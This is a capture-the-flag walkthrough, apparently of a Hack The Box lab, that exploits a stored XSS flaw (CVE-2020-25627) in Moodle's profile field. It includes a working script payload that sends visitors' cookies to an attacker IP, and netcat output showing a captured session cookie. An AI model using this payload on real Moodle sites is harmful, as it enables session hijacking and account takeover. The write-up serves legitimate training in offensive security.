 Based on all this, we could assume that the vulnerability sits within this field, so let's google for something like "moodlenet profile exploit".

We find the following repo on github (2nd in search results for me). This repo provides details how to steal another user's cookie, and contains instructions to do so.

{% embed url="https://github.com/HoangKien1020/CVE-2020-25627" %}

## Gaining Access

### CVE-2020-25627

To confirm that the "Moodlenet profile" field is vulnerable to XSS, which in turn will allow us to steal the session cookie from anyone who visits our profile page. Let's test it as per the instructions in the repo:

![](../../.gitbook/assets/8.JPG)

Nice, we have finally found something that indicates we could be on the right path.

Before continuing on, the repo talks about starting a webserver and hosting the authors xss.php file, however, I found that this was not entirely necessary. Simply starting up a netcat listener on port 80 worked find for me in this scenario.

Next, let's modify the payload by updating it with our attacker machine IP, and putting in a non existing file name. Then paste it into the vulnerable field and save the change.&#x20;

```
<script>var i=new Image;i.src="http://10.10.19.99/nopage.php?"+document.cookie;</script>
```

At this point we need to wait a while. Why are we doing this? Well, think back to the message posted by Manuel, where he states that he will check students profile pages for their "Moodlenet profile" value. When Manuel visits our profile page, we should get a hit which contains his session cookie value, as shown below:

```
└─$ sudo nc -nvlp 80                                                                                       130 ⨯
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.234.
Ncat: Connection from 10.10.10.234:49193.
GET /nopage.php?MoodleSession=1kf60palrqln883ht577rot01u HTTP/1.1
Host: 10.10.19.99
User-Agent: Mozilla/5.0 (X11; FreeBSD amd64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://moodle.schooled.htb/moodle/user/profile.php?id=28

```
